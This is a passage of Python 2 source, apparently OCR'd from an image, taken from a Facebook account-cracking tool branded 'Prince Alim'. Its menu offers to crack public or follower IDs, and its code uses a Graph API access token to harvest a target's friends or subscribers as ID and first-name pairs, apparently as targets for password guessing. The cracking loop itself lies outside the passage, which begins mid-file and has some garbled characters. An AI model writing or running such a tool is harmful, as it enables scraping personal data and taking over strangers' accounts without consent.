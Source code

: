 	print("\x1b[1;92m[1]\x1b[1;93m Crack Public Id")
	print("\x1b[1;92m[2]\x1b[1;93m Crack Followers Id")
	print("\x1b[1;92m[0]\x1b[1;93m Back")
	print(47*"\x1b[1;92m-")
	print("")
	crack_select()
def crack_select():
	select = raw_input("\033[1;33mChoose option: \033[0;92m")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		print(logo)
		
		idt = raw_input("\x1b[1;93m Input id:\x1b[1;92m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
			q = json.loads(r.text)
			os.system('clear')
			print(logo)
			print('')
			print("  ðŸ”¥Prince AlimðŸ”¥ START CRACKING.....")
			print('')
			print("  Cloning from :\x1b[1;92m "+q["name"])
		except KeyError:
			print("\tInvalid link OR token")
			print("")
			raw_input(" Press enter to back")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="2":
		os.system("clear")
		print(logo)
		
		idt = raw_input("\x1b[1;93m Input id:\x1b[1;92m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
			q = json.loads(r.text)
			os.system('clear')
			print(logo)
			print('')
			print("  ðŸ”¥Prince AlimðŸ”¥ START CRACKING.....")
			print('')
			print("  Cloning from:\x1b[1;92m "+q["name"])
		except KeyError:
			print("\tInvalid id link OR token")
			print("")
			raw_input(" Press enter to back")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999")
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
